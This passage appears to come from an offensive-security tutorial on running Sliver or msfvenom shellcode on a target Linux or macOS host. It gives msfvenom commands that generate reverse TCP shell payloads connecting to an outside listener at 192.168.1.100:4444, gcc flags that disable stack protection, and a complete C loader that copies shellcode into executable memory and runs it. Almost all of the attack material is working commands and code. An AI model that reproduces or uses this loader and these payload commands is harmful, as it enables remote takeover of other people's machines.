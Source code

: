 Replace the content of the `shellcode` array with the raw bytes of the shellcode generated by Sliver.

#### 3. Compile and Run the C Program

Compile the C program using `gcc`:

```sh
gcc -o shellcode_runner shellcode_runner.c -z execstack
```

Run the compiled program on the target Linux or macOS system:

```sh
./shellcode_runner
```

### Using `msfvenom` to Generate Shellcode

#### 1. Generate msfvenom Shellcode

Generate a reverse shell payload with `msfvenom` that connects to your Sliver server. Here’s an example command to create a Linux reverse TCP shell:

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

For macOS, you can generate a payload similarly:

```sh
msfvenom -p osx/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

This command outputs shellcode in C format.

#### 2. Write a C Program to Execute the Shellcode

Use the generated shellcode in a C program. Here’s an example:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

// Replace this with the actual shellcode generated by msfvenom
unsigned char shellcode[] = 
    "\x48\x31\xc0\x48\x89\xc2\x48\x89"
    "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
    "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
    "\x2f\x73\x68\x00\x5f\xb0\x3b\x99"
    "\x0f\x05"; 

void execute_shellcode() {
    void *exec = mmap(0, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (exec == MAP_FAILED) {
        perror("mmap");
        exit(1);
    }
    memcpy(exec, shellcode, sizeof(shellcode));
    ((void(*)())exec)();
}

int main() {
    execute_shellcode();
    return 0;
}
```